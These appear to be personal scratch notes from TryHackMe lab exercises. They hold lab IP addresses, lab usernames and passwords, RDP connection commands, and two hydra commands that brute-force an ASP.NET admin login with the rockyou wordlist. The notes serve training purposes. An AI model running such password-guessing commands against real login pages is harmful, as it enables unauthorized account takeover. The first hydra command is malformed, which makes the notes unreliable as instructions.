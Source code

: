 IP Address: **10.10.49.23**

Username: **cmnatic**

Password: **yararules!**

SSH Port: **22**

`rdesktop -u username -f IP`

xfreerdp
best rdp soffware


xfreerdp /u:Analysis /p:Tryhackme123! /v:10.10.140.138 
Username: Administrator

Password: BHN2UVw0Q
xfreerdp /u:Administrator /p:BHN2UVw0Q /v:10.10.214.145



http://10.10.180.60/Account/login.aspx?ReturnURL=%2fadmin%2f

hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 
10.10.214.145 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
Host: 10.10.180.60
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 754
Origin: http://10.10.180.60
DNT: 1
Connection: close
Referer: http://10.10.180.60/Account/login.aspx?ReturnURL=%2fadmin%2f
Upgrade-Insecure-Requests: 1

__VIEWSTATE=E5YPEg0DkjC%2B5ayJFm%2FBcd0cqk4g9KD9iZ0vHNNYHDQcaV2PMJz1s05zinB94MMBUS0qRC1pXgEuGVGqGPjaR6%2FMYnR52S9HjZ8n7lAHuT0%2BABYffLk5r%2FqXO6Jdtr7Kr09CFZV5qjTctiVb%2FgGqIVb6aIeeloG093tnWWsiNfd97M8wctRqGPyLXbFGqpwZcJT8fjGomlzV9ZlfHOED40TURbh0NCvPJG2zpb37n8wcXGrBJPc5nZLI5PI9ayl3WT%2B%2FUk5fKv7A9kvT4A8rUxCAID9QPPcmlozPwntjdbXy2vjWiD4jgrBUOvnarg%2FW%2BH9vsQTtUWrJf2tfDO5BBBa9xP4O6yY4E0tWbBfpS96sLN8q&__EVENTVALIDATION=ePsk74eOlQvDKNJ5KrhTGuoeZ0FPm2aD4QMx7BXsr22%2FHnU%2FBTCT2wv2oUo7edqq2tZd1j%2FMyMEyZo1FhKVpCxq%2BEWHipYNWVlCq7QaIBP1UFy8yKa27j%2FGRIB0arrkjRZyKgZd4vmXSoc498hBOfrMjfu1w2yomnnC6YuOGWb5Di2GB&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^www^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in"


hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 10.10.214.145 "/http-post-form “/Account/login.aspx:__VIEWSTATE=X%2Fz3Mlty62z5Y8aCAMiDaFe%2B9SKdcf9226N9xQ01mq8rP30ZJRq5G7EwUwzkz3n9rzEXVYmhE%2BBRVjtKpusOG%2BclmdkWeaN46I%2FnUYO4uzqLV1jka6wmsfIKFhEdwy3oeh7DlUj8VUnfKjmAAhl6QNzNfhdXj13D13LFPh9wtvnHyBjYmqMzxEvWAL1mwoNVWxVTCra5DFu1l1gLSNfWkrXLzo7bQdYCnhV2xxpLa1JgaLGsxDUS3h25czmU7g3MCciYGEAgFFxv%2FATyhDiIQBlHJ154WMYnL52cM7MR81pZZNgK32WdRwy%2FvA2wQvi6YrjkLrEZsiepbdoKvQHZ6qqyPxH0j6K9BI3%2FlKKiT2cfS1Nm&__EVENTVALIDATION=tbMSuN0fZZiffwoWR2502NvWLKSDwmGhtVGh9KB%2FIf6hdNVf9UjamY4uMbjjKFAInyLeK%2Fz5%2ByO1yrvO44pVUZTCisUdcMS2k59fRgxCJ9mU9waI%2BiHVLyhzWS22LViSMdGRUhHURt84Cg9MNCxXY172nJrVA5WtJ7PavxhpRlqV8Wi3&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed” -t 64



0x8049208






